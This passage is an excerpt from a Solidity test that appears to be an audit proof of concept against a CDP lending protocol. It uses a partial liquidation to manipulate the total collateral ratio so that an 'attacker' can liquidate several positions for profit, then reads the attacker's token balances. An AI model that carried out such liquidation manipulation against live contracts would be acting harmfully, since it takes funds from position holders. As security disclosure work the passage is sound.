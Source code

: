 ```solidity
            console.log("Is available to liquidate CDP_123ICR? ", isAvailableToLiq);

            if (isAvailableToLiq) {
                console.log("- Liquidate CDP_123ICR fully");
                vm.prank(user);
                cdpManager.liquidate(cdpIds[2]);

                TCR = cdpManager.getCachedTCR(price);
                console.log("TCR after LiqCDP_123ICR: ", TCR);
            }

            console.log("\n");
            console.log("- Liquidate CDP_110ICR partially: TCR -> 124%");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            targetICR = cdpManager.getSyncedICR(cdpIds[3], price);
            deltaDebt = _calcDebtForDesiredTCRWithLastCDP(targetICR, activePool.getSystemCollShares(), activePool.getSystemDebt(), price, icr0);
            console.log("deltaDebt: ", deltaDebt);
            vm.prank(user);
            cdpManager.partiallyLiquidate(cdpIds[0], deltaDebt, cdpIds[0], cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR: ", TCR);

            isAvailableToLiq = _checkAvailableToLiq(cdpIds[3], price);
            console.log("Is available to liquidate CDP_124ICR? ", isAvailableToLiq);

            if (isAvailableToLiq) {
                console.log("- Liquidate CDP_124ICR fully");
                vm.prank(user);
                cdpManager.liquidate(cdpIds[3]);

                TCR = cdpManager.getCachedTCR(price);
                console.log("TCR after LiqCDP_124ICR: ", TCR);

                console.log("There is no CDP (TCR <= ICR < CCR)");
            }

            console.log("-- Now the attacker will liquidate some CDPs (ICR <= TCR) < CCR to earn more money --");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            console.log("CDP_110ICR = ", icr0);
            console.log("- Liquidate CDP_110ICR fully");
            vm.prank(user);
            cdpManager.liquidate(cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR after LiqCDP_110ICR fully: ", TCR);
            console.log("!!!System is in NormalMode liquidating 4 CDPs including the first CDP!!!");

            console.log("\n");

            console.log("Is CDP_110ICR liquidated? ", !sortedCdps.contains(cdpIds[0]));
            console.log("Is CDP_122ICR liquidated? ", !sortedCdps.contains(cdpIds[1]));
            console.log("Is CDP_123ICR liquidated? ", !sortedCdps.contains(cdpIds[2]));
            console.log("Is CDP_124ICR liquidated? ", !sortedCdps.contains(cdpIds[3]));
            console.log("Is CDP_133ICR liquidated? ", !sortedCdps.contains(cdpIds[4]));

            console.log("CDP size: ", sortedCdps.getSize());

            uint256 _stETHBalance = collateral.balanceOf(user);
            uint256 _eBTCBalance = eBTCToken.balanceOf(user);
```